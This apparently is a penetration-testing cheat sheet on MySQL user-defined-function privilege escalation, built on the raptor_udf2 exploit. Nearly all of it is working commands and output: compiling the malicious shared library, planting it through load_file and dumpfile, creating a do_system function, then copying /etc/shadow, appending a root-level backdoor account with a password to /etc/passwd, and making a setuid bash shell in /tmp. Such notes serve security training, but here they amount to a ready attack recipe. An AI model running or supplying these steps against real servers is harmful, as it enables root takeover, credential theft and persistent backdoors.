Compiling the .so file for MySQL using GCC:
```
-m32 flag should be used for x64. this flag isnt needed for x86
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

Usage:
$ id
uid=500(raptor) gid=500(raptor) groups=500(raptor)
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
$ mysql -u root -p
Enter password:
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/j0hn/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
mysql> select do_system('cat /etc/shadow > /tmp/out; echo "oneequalsone:xd1aAlLUOvwKo.:0:0::/root:/bin/bash" >> /etc/passwd');
mysql> \! sh
sh-2.05b$ cat /tmp/out
 uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
```
we can also login directly to the underlying operating system as the user 'oneequalsone' and the password 'securitytraining'.

## MySQL Post Exploitation steps:
```
user defined functions:
with user defined fuinctions we can run commands on mysql if we have root access to the db with the context of the mysql process. if the process is owned by root, we can run as that user. 

ps aux | grep mysql
mysql -V
mysql -u root -p -e 'select @@version;'

searchsploit -m linux/local/1518.c
gcc -g -c 1518.c -o raptor_udf2.o -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

use mysql;
create table foo(line blob);
insert into foo values(load_file('<path to UDF file>'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/udf_file_name.so';
create function do_system returns integer soname 'udf_file_name.so';
show variables like '%plugin%';
select do_system('<command>');
select do_system('cp /bin/bash /tmp/stef; chmod +xs /tmp/stef');
exit sql
/tmp/stef -p
```
